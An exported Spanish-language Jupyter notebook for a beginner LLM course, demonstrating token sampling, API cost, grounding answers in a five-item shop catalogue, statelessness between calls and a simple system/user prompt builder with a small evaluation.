# 1 · Fundamentos de LLMs: de tokens a una primera aplicación

Prerrequisitos: Python básico.

Hoy entendemos qué hace un modelo de lenguaje y lo comprobamos con llamadas reales.
Ejecuta cada celda cuando el docente la ejecute. Antes de ejecutar, predice el resultado.

## Preparación
La celda siguiente carga el entorno, las cinco fichas del catálogo y dos ayudas: `ask` (hace una llamada) y `cost_usd` (calcula el coste).
También hace una llamada corta a la API para comprobar la clave. Debe mostrar `'api': 'OK'`.

Si te pierdes en algún momento: *Kernel → Restart Kernel and Run All Cells*. El notebook funciona de principio a fin.

In [1]:
import inspect
import json
import sys
from copy import deepcopy
from pathlib import Path

ROOT = next(p for p in [Path.cwd(), *Path.cwd().parents] if (p / "pyproject.toml").exists())
sys.path.insert(0, str(ROOT / "src"))
from carrito.model import live_check, native_call

# Cinco fichas abreviadas del catálogo: ID, nombre y precio. Nada más.
PRODUCTS = [
    {"id": "P001", "name": "Auriculares Nube", "price_eur": 69.90},
    {"id": "P002", "name": "Auriculares Estudio", "price_eur": 129.00},
    {"id": "P003", "name": "Altavoz Brisa", "price_eur": 45.90},
    {"id": "P004", "name": "Micrófono Claro", "price_eur": 59.90},
    {"id": "P005", "name": "Teclado Arena", "price_eur": 49.90},
]
question = "Busco auriculares inalámbricos por menos de 80 euros."

# Precio ilustrativo de gpt-6-luna en dólares por millón de tokens. Compruébalo en la web de OpenAI.
PRICE_IN, PRICE_OUT = 0.10, 0.50

def ask(messages):
    """Una llamada real al modelo. Devuelve el texto y el uso de tokens."""
    if isinstance(messages, str):
        messages = [{"role": "user", "content": messages}]
    result = native_call(messages)
    return result["output_text"], result["usage"]

def cost_usd(usage):
    return (usage.get("input_tokens", 0) * PRICE_IN + usage.get("output_tokens", 0) * PRICE_OUT) / 1e6

COMPLETION = {}
def check(name, condition):
    COMPLETION[name] = bool(condition)
    print(("OK" if condition else "PENDIENTE") + ": " + name)

print(live_check())  # Si falla: pega la clave de hoy en .env y repite esta celda.

{'api': 'OK', 'model': 'gpt-6-luna', 'latency_s': 2.0, 'answer': 'OK'}


## Experimento 1 · Misma pregunta, tres respuestas
Slides S1-07 y S1-08. El modelo calcula probabilidades para el siguiente token y **sortea**.
Por eso la misma pregunta puede dar respuestas distintas.

Predice: ¿saldrán tres nombres iguales o distintos?

In [2]:
prompt = "Inventa un nombre para una tienda online de auriculares. Responde solo con el nombre."
for attempt in range(1, 4):
    answer, usage = ask(prompt)
    print(f"{attempt}. {answer}")

print("\nUso de la última llamada:", usage)
print(f"Coste de la última llamada: {cost_usd(usage):.6f} $")
print(f"Coste de 1 millón de llamadas como esta: {cost_usd(usage) * 1_000_000:,.0f} $")

1. Aurixia

2. SonoraLoop
3. AudioNexo

Uso de la última llamada: {'input_tokens': 25, 'input_tokens_details': {'cache_write_tokens': 0, 'cached_tokens': 0}, 'output_tokens': 37, 'output_tokens_details': {'reasoning_tokens': 28}, 'total_tokens': 62}
Coste de la última llamada: 0.000021 $
Coste de 1 millón de llamadas como esta: 21 $


Fíjate en tres cosas:
- Las respuestas cambian: el modelo sortea entre tokens probables.
- `usage` mide los tokens de entrada y de salida. El coste se calcula con ellos.
- Una llamada cuesta muy poco. Un millón de llamadas, no tanto.

## Experimento 2 · Sin datos y con datos
Slide S1-09: probable no significa verdadero.

Hacemos la misma pregunta dos veces. Primero sin darle ningún dato. Después con las cinco fichas del catálogo.
Predice: ¿qué responderá sin datos? El precio real de P001 es 69,90 €.

In [3]:
price_question = "¿Cuánto cuestan los Auriculares Nube de la tienda Carrito? Responde en una frase."

without_data, _ = ask(price_question)
print("SIN DATOS:\n", without_data, "\n")

with_data, _ = ask([
    {"role": "system", "content": "Usa solo las fichas del catálogo. Si falta un dato, di que no lo sabes."},
    {"role": "user", "content": price_question + "\nCATÁLOGO: " + json.dumps(PRODUCTS, ensure_ascii=False)},
])
print("CON DATOS:\n", with_data)

SIN DATOS:
 No puedo confirmar el precio de los Auriculares Nube sin consultar el catálogo de la tienda Carrito. 

CON DATOS:
 Los Auriculares Nube cuestan 69,90 € en la tienda Carrito.


Sin datos, el modelo no puede saber el precio: o lo reconoce, o escribe una cifra plausible. Las dos cosas son posibles.
Con datos, puede responder 69,90 € porque **está en su contexto**. No ha aprendido nada nuevo: se lo hemos dado.

## Experimento 3 · El modelo no tiene memoria
Slide S1-13: entrenar no es lo mismo que usar.

Primero nos presentamos. Después, en **otra llamada**, preguntamos cómo nos llamamos.
Predice: ¿lo sabrá?

In [4]:
first = "Hola, me llamo Ana y busco unos auriculares para correr."
reply, _ = ask(first)
print("LLAMADA 1:", reply, "\n")

alone, _ = ask("¿Cómo me llamo?")
print("LLAMADA 2, sin historial:", alone, "\n")

history = [
    {"role": "user", "content": first},
    {"role": "assistant", "content": reply},
    {"role": "user", "content": "¿Cómo me llamo?"},
]
remembered, usage = ask(history)
print("LLAMADA 3, reenviando el historial:", remembered)
print("Tokens de entrada de la llamada 3:", usage.get("input_tokens"))

LLAMADA 1: ¡Hola, Ana! Para correr, conviene priorizar que se ajusten bien, resistan el sudor (al menos IPX4) y tengan buena batería. Si corres por la calle, también puede ser útil un modo transparencia o un diseño abierto para oír el tráfico.

¿En qué rango de precio buscas y prefieres auriculares dentro del oído o de diseño abierto? 

LLAMADA 2, sin historial: No me lo has dicho todavía. 

LLAMADA 3, reenviando el historial: Te llamas Ana.
Tokens de entrada de la llamada 3: 114


Cada llamada empieza de cero. Si ChatGPT «recuerda», es porque la aplicación **reenvía la conversación** en cada mensaje.
Por eso las conversaciones largas consumen cada vez más tokens (slide S1-14).

## Contexto contrafactual: el mismo modelo, otro dato disponible
Las cinco fichas son evidencia en el contexto. No están en los pesos del modelo.

Cambiamos solo el precio de P001: de 69,90 € a 89,90 €. La pregunta y la instrucción no cambian.
Con un presupuesto de 80 €, la respuesta correcta debe cambiar. Comprueba si el modelo la cambia.

In [5]:
context_b = deepcopy(PRODUCTS)
context_b[0]["price_eur"] = 89.90
demo_question = "¿P001 cabe en mi presupuesto de 80 euros?"
fixed_instruction = "Usa solo las fichas dadas. Si falta un atributo, reconoce que no lo sabes."
def prepared_messages(products):
    return [{"role": "system", "content": fixed_instruction},
            {"role": "user", "content": demo_question + "\nCATÁLOGO: " + json.dumps(products, ensure_ascii=False)}]
for label, products in [("A", PRODUCTS), ("B", context_b)]:
    payload = prepared_messages(products)
    print("Contexto", label, json.dumps(payload, ensure_ascii=False))
    observed = native_call(payload)
    print("Salida:", observed["output_text"])
    print("usage:", observed["usage"], "\n")
assert PRODUCTS[0]["price_eur"] == 69.90  # El contexto original no cambia.
print("Llamada al SDK, sin tools ni loop:")
print(inspect.getsource(native_call))

Contexto A [{"role": "system", "content": "Usa solo las fichas dadas. Si falta un atributo, reconoce que no lo sabes."}, {"role": "user", "content": "¿P001 cabe en mi presupuesto de 80 euros?\nCATÁLOGO: [{\"id\": \"P001\", \"name\": \"Auriculares Nube\", \"price_eur\": 69.9}, {\"id\": \"P002\", \"name\": \"Auriculares Estudio\", \"price_eur\": 129.0}, {\"id\": \"P003\", \"name\": \"Altavoz Brisa\", \"price_eur\": 45.9}, {\"id\": \"P004\", \"name\": \"Micrófono Claro\", \"price_eur\": 59.9}, {\"id\": \"P005\", \"name\": \"Teclado Arena\", \"price_eur\": 49.9}]"}]
Salida: Sí. P001 cuesta 69,90 €, así que está dentro de tu presupuesto de 80 €. Te quedarían 10,10 €.
usage: {'input_tokens': 176, 'input_tokens_details': {'cache_write_tokens': 0, 'cached_tokens': 0}, 'output_tokens': 33, 'output_tokens_details': {'reasoning_tokens': 0}, 'total_tokens': 209} 

Contexto B [{"role": "system", "content": "Usa solo las fichas dadas. Si falta un atributo, reconoce que no lo sabes."}, {"role": "user

En la función, localiza `model`, `input`, `max_output_tokens` y `store=False`.
En la respuesta, distingue `output_text`, los items de `output`, `status` y `usage`.

Un error de red, cuota o acceso no indica un fallo de lenguaje.
Una respuesta incompleta o un rechazo no son un éxito.

## Capacidades, límites y entrada multimodal
Generar, resumir y extraer patrones no garantiza hechos actuales.
Tampoco garantiza que el modelo reconozca un dato ausente. Las fichas no dicen nada de resistencia al agua.

Una imagen es otro tipo de entrada. No prueba stock ni garantía.
Mira la tarjeta antes de ejecutar: ¿qué se puede observar y qué hay que consultar?



{
  "output_text": "**Lo que se ve en la imagen:**\n- Producto: **Auriculares Nube**\n- CÃ³digo: **P001**\n- Precio indicado: **69,90 EUR**\n- Aspecto: auriculares negros con diadema y almohadillas que cubren las orejas.\n\n**QuÃ© convendrÃ­a consultar:** si son inalÃ¡mbricos o con cable, compatibilidad, funciones de sonido o cancelaciÃ³n de ruido, autonomÃ­a y tiempo de carga, contenido de la caja, disponibilidad y condiciones de garantÃ­a. La imagen no confirma esas caracterÃ­sticas.",
  "output": [
    {
      "id": "rs_0d9c20c88adfe930016ace79ca3d5887d299dabefadb324a2e",
      "summary": [],
      "type": "reasoning",
      "content": [],
      "encrypted_content": "gAAAAABqznnMh47EpzhP18QsKlaCQbusx-LoFoEYP3pKqIN0M_OuoO12-H-yUh-QvPsUQsdSq9r6J5_y37Io7TA2dAY-r48Hru1fLPNfnnxrH3QrGy3Sch2GEIUf1IWABytMuukXazzu4TW-AaLss1zhPtNpT6Ni6z9zXSk-zeFCNBQMccKw78oenMD5lur2SRY9Fk_ib6Y-bftWMRmQ9nRBFK34Xy1IjCylHF5xImBEmQr4uB4Wlc_gczpk_dGzbUV8RrnXxrlId0zwClVnpKQTPXKobLdqLqiWb552tAOmWxuac3H4tW2NK53IT6-bw

In [6]:
import subprocess

from IPython.display import Image, display

display(Image(filename=str(ROOT / "data/demo/product-card.png"), width=480))
demo = subprocess.run([sys.executable, str(ROOT / "examples/multimodal.py")],
                      cwd=ROOT, capture_output=True, text=True)
print(demo.stdout if demo.returncode == 0 else demo.stderr[-800:])

## Modelo, aplicación, workflow y agente
- **Modelo:** transforma un contexto en probabilidades y texto generado.
- **Aplicación:** añade interfaz, instrucciones, datos, validaciones y presentación.
- **Workflow:** el software fija la secuencia. Ejemplo: leer datos → llamar → comprobar.
- **Agente:** el modelo elige el siguiente paso con tools, dentro de los límites del host.

Hoy construimos una aplicación con una llamada. El modelo no consulta SQLite, no elige tools y no registra devoluciones.
S3 y S4 añaden esas piezas.

Pregunta: ¿quién debe comprobar un precio? ¿Basta una instrucción al modelo?

## Primera aplicación: una función y dos contrastes
`build_messages` separa la instrucción (rol `system`) de la petición y las fichas (rol `user`).

1. Lee `build_messages`: dos roles, cinco fichas y una regla para datos ausentes.
2. Ejecuta el caso base. ¿Qué podemos afirmar sobre P001?
3. Cambia solo el precio en una copia del contexto. Compara con el presupuesto de 80 €.
4. Pregunta por la resistencia al agua. ¿Qué información falta?

In [7]:
def build_messages(question, products):
    # Instrucción en system. Petición y evidencia en user. Regla explícita para datos ausentes.
    instructions = (
        "Eres el asistente de una tienda. Usa solo las fichas del catálogo. "
        "Si falta un dato, di que no lo sabes. No inventes precios ni atributos."
    )
    evidence = json.dumps(products, ensure_ascii=False)
    return [
        {"role": "system", "content": instructions},
        {"role": "user", "content": f"{question}\nCATÁLOGO: {evidence}"},
    ]
messages = build_messages(question, PRODUCTS)

In [10]:
system_text = messages[0].get("content", "") if messages else ""
user_text = messages[1].get("content", "") if len(messages) > 1 else ""
check("dos roles separados", len(messages) == 2 and [m["role"] for m in messages] == ["system", "user"])
check("cinco productos en contexto", all(p["id"] in user_text for p in PRODUCTS))
check("regla para información ausente", any(word in system_text.lower() for word in ["falta", "ausente", "desconoc", "no sabes"]))
print(json.dumps(messages, ensure_ascii=False, indent=2))

OK: dos roles separados
OK: cinco productos en contexto
OK: regla para información ausente
[
  {
    "role": "system",
    "content": "Eres el asistente de una tienda. Usa solo las fichas del catálogo. Si falta un dato, di que no lo sabes. No inventes precios ni atributos."
  },
  {
    "role": "user",
    "content": "Busco auriculares inalámbricos por menos de 80 euros.\nCATÁLOGO: [{\"id\": \"P001\", \"name\": \"Auriculares Nube\", \"price_eur\": 69.9}, {\"id\": \"P002\", \"name\": \"Auriculares Estudio\", \"price_eur\": 129.0}, {\"id\": \"P003\", \"name\": \"Altavoz Brisa\", \"price_eur\": 45.9}, {\"id\": \"P004\", \"name\": \"Micrófono Claro\", \"price_eur\": 59.9}, {\"id\": \"P005\", \"name\": \"Teclado Arena\", \"price_eur\": 49.9}]"
  }
]


In [11]:
changed_products = deepcopy(PRODUCTS)
changed_products[0]["price_eur"] = 89.90  # El único dato que modificamos.
lab_cases = [
    ("base", "¿P001 cabe en 80 euros?", PRODUCTS, "P001 cuesta 69,90 €; sí cabe."),
    ("precio cambiado", "¿P001 cabe en 80 euros?", changed_products, "Ahora la ficha dice 89,90 €; no cabe."),
    ("dato ausente", "¿P001 es resistente al agua?", PRODUCTS, "La ficha no aporta resistencia al agua."),
]
lab_observations = []
for label, prompt, evidence, expected in lab_cases:
    observed = native_call(build_messages(prompt, evidence))
    lab_observations.append({"case": label, "expected": expected, "observed": observed["output_text"]})
    print(f"[{label}]\n  esperado:  {expected}\n  observado: {observed['output_text']}\n")

[base]
  esperado:  P001 cuesta 69,90 €; sí cabe.
  observado: Sí. P001 cuesta 69,90 €, así que cabe en 80 €; te sobran 10,10 €.

[precio cambiado]
  esperado:  Ahora la ficha dice 89,90 €; no cabe.
  observado: No. P001 cuesta 89,90 €, así que supera los 80 €.

[dato ausente]
  esperado:  La ficha no aporta resistencia al agua.
  observado: No lo sé; la ficha de P001 no indica si es resistente al agua.



## Primera evaluación: cinco casos
Enviamos cinco preguntas al modelo. Para cada respuesta, aplica el criterio de la tabla.

| Caso | Qué comprobar |
|---|---|
| ¿P001 cabe en 80 €? Contexto A | Precio de 69,90 € sustentado |
| Misma pregunta, contexto B | Precio de 89,90 €: cambia la conclusión |
| ¿P001 es resistente al agua? | El atributo no existe en las fichas |
| ¿Qué compro? | Faltan preferencias |
| Monitor por 20 € | No inventar producto ni descuento |

In [12]:
changed_products = deepcopy(PRODUCTS)
changed_products[0]["price_eur"] = 89.90
eval_cases = [
    ("¿P001 cabe en 80 €?", PRODUCTS, "Precio de 69,90 € sustentado"),
    ("¿P001 cabe en 80 €?", changed_products, "Precio de 89,90 €: cambia la conclusión"),
    ("¿P001 es resistente al agua?", PRODUCTS, "Dice que el dato no está en las fichas"),
    ("¿Qué compro?", PRODUCTS, "Pide preferencias"),
    ("Quiero un monitor por 20 €", PRODUCTS, "No inventa producto ni descuento"),
]
observations = []
for number, (q, evidence, criterion) in enumerate(eval_cases, 1):
    answer = native_call(build_messages(q, evidence))["output_text"]
    observations.append({"case": number, "question": q, "criterion": criterion, "answer": answer})
    print(f"{number}. {q}\n   criterio:  {criterion}\n   respuesta: {answer}\n")

1. ¿P001 cabe en 80 €?
   criterio:  Precio de 69,90 € sustentado
   respuesta: Sí. P001 cuesta 69,90 €, así que cabe en 80 €.

2. ¿P001 cabe en 80 €?
   criterio:  Precio de 89,90 €: cambia la conclusión
   respuesta: No. P001 cuesta 89,90 €, así que supera los 80 €.

3. ¿P001 es resistente al agua?
   criterio:  Dice que el dato no está en las fichas
   respuesta: No lo sé; la ficha de P001 no indica si es resistente al agua.

4. ¿Qué compro?
   criterio:  Pide preferencias
   respuesta: Si quieres gastar lo mínimo, el **Altavoz Brisa** cuesta **45,90 €**. Si me dices para qué lo necesitas o cuánto quieres gastar, te ayudo a elegir entre las opciones del catálogo.

5. Quiero un monitor por 20 €
   criterio:  No inventa producto ni descuento
   respuesta: No tenemos monitores en el catálogo. Tampoco hay ningún producto de 20 €.



In [14]:
# Revisión humana: después de leer cada respuesta, marca True (cumple) o False (falla).
human_review = {1: True, 2: True, 3: True, 4: True, 5: True}
print(human_review)

{1: True, 2: True, 3: True, 4: True, 5: True}


**Cierre.** Debes poder explicar:
- qué hace un LLM: predecir el siguiente token y sortear;
- por qué la misma pregunta da respuestas distintas;
- por qué sin datos puede inventar, y con datos responde bien;
- por qué el modelo no recuerda nada entre llamadas;
- qué caso de la evaluación falló y por qué.

Los checks comprueban el código. No miden la calidad del modelo.

**Siguiente sesión:** S2 trae su propio catálogo y mensajes. No depende de S1.
Fuente: [generación de texto en la API](https://developers.openai.com/api/docs/guides/text).

In [15]:
print(json.dumps(COMPLETION, ensure_ascii=False, indent=2))
print("CHECKPOINT_COMPLETO" if all(COMPLETION.values()) else "Revisa los checks PENDIENTE.")

{
  "dos roles separados": true,
  "cinco productos en contexto": true,
  "regla para información ausente": true
}
CHECKPOINT_COMPLETO
